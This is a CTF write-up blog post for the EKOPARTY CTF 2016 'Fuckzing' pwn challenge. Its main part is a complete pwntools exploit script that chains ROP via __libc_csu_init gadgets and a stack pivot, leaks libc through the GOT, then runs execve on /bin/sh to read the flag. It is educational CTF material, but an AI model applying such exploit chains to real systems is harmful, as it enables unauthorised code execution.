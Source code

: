 ```yaml
---
layout: post
alias: "/blog/2016/10/29/ekoparty-ctf-2016-fuckzing-exploit/"
date: "2016-10-29T13:00:47+09:00"
tags: [ "ctf", "writeup", "ekoparty-ctf", "pwn", "rop", "stack-pivot", "libc-csu-init" ]
"target_url": [ "https://ctf.ekoparty.org/tasks/pwn/200" ]
---
```


# EKOPARTY CTF 2016: Fuckzing exploit

-   Sun Oct 30 00:19:55 JST 2016
    -   I heard that the string for the rev-250 was unnecessary to cause buffer overflow.

## problem

The binary is same to the rev-250, Fuckzing rev-250, but the filter on server doesn't exist.
You should solve rev-250 first.

## solution

To call `system("/bin/sh")`, it's not difficult. There are stack overflow vulnerability, and you can do return-oriented-programming with `__libc_csu_init` and stack-pivot.

However, I spent much time after taking the shell.
The difficulties are below:

-   I couldn't use `/bin/sh` interactively (why?)
-   It is `chroot`-ed and there are only $2$ binaries: `/bin/sh` and `/bin/ls`
-   And you cannot `cat flag.txt`

And I got the flag using the shell-builtin command `.`. It reports the contents of a file as error message.

```
# /bin/ls -l
total 84\n
-rw-r--r--  1 fuck 1002     0 Oct 27 18:47 ?@
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 ???????????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:39 -?M@+LQ}Z2??V??Cw+??}????d4???
-rwxr-xr-x  1 root    0 30640 Oct 21 15:52 FUck_binary
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 V?[??????fp?
-rw-r--r--  1 fuck 1002     2 Oct 28 07:38 a
drwxr-xr-x  2 root    0  4096 Oct 27 15:50 bin
drwxr-xr-x 19 root    0  4320 Aug 22 13:14 dev
drwxr-xr-x  3 root    0  4096 Oct 21 16:06 etc
-rw-r--r--  1 root    0    20 Oct 21 16:16 flag.txt
-rw-r--r--  1 fuck 1002     1 Oct 28 12:29 hoge
drwxr-xr-x  3 root    0  4096 Oct 20 21:16 home
-rw-r--r--  1 fuck 1002 10252 Oct 28 00:56 index.html
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 k??T???Y?p?
drwxr-xr-x  3 root    0  4096 Oct 20 20:56 lib
drwxr-xr-x  2 root    0  4096 Oct 20 20:57 lib64
drwxr-xr-x  2 root    0  4096 Oct 21 09:21 proc
drwxr-xr-x  5 root    0  4096 Oct 20 22:30 usr
-rw-r--r--  1 fuck 1002     0 Oct 27 20:43 ???T?BTK??*?????????????J??W
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ????mW#???????Cq?????d???????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ??H??5m8??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:38 ??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:44 ????t?]???Fx?
```

``` sh
# /bin/ls -l /bin
total 276
-rwxr-xr-x 1 root 0 126584 Oct 27 15:45 ls
-rwxr-xr-x 1 root 0 154072 Oct 27 15:50 sh
```

``` sh
# . flag.txt
/bin/sh: 1: ./flag.txt: EKO{AFL_found_this}: not found
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site')
parser.add_argument('port', nargs='?', default=10000, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('FUck_binary')
libc = ELF('libc.so.6') # Ubuntu 16.04, d443f227870b9c29182cc7a7a007d881
libc_csu_init_a = 0x405660
libc_csu_init_b = 0x40567a
pop_rsp_r13_r14_r15_ret =  0x40567d # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
static = 0x606000
next_stack = static + 0x1000 - 0x200
buffer = static + 0x1000 - 0x90

# p = process('./FUck_binary', env={ 'LD_LIBRARY_PATH': '.' }) # with ./libget_flag.so
p = remote(args.host, args.port)

p.recvuntil("Hello, what's your team name? ")
payload = ''
payload += '\x80@@\x88\xa6  @ \x86@v@   /\x96vC\x80p D AC``@`v 0  \x87\x80   @X@ @@\x80`@h \x9d@  W@UB \x80( \x8cq@@ \x80\x80 F$tH  6  J B k[Q` @@@Xp, I @\x80 @             \x80  \x80 @          ' # found using angr (rev 250)
payload += 'AAAAAAAA' # rbp
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(next_stack) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += 'AAAAAAAA' # rbx
payload += 'AAAAAAAA' # rbp
payload += 'AAAAAAAA' # r12
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(pop_rsp_r13_r14_r15_ret) # rip
payload += p64(next_stack) # rsp
p.send(payload)

time.sleep(1)
payload = ''
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['write']) # r12 -> rip
payload += p64(8) # r13 -> rdx
payload += p64(elf.got['setvbuf']) # r14 -> rsi
payload += p64(1) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(buffer) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(buffer) # r12
payload += p64(buffer + 0x8) # r13
payload += p64(buffer + 0x10) # r14
payload += p64(buffer + 0x40) # r15
payload += p64(libc_csu_init_a)
p.send(payload)

p.recvuntil('Goodbye!')
setvbuf = u64(p.recv(8))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('setvbuf: %#x', setvbuf)
log.info('libc base: %#x', libc_base)
payload = ''
payload += p64(libc_base + libc.symbols['execve']) # 0x0
payload += p64(0) # 0x8, envp[0]
payload += p64(buffer + 0x40) # 0x10, argv[0]
payload += p64(buffer + 0x50) # 0x18
payload += p64(buffer + 0x60) # 0x20
payload += p64(0) # 0x28
payload += p64(0) # 0x30
payload += p64(0) # 0x38
payload += '/bin/sh\0' # 0x40
payload += '\0' * (0x50 - len(payload))
payload += '-c\0' # 0x50
payload += '\0' * (0x60 - len(payload))
payload += '. ./flag.txt\0' # 0x60
p.send(payload)

print p.recvall()
```
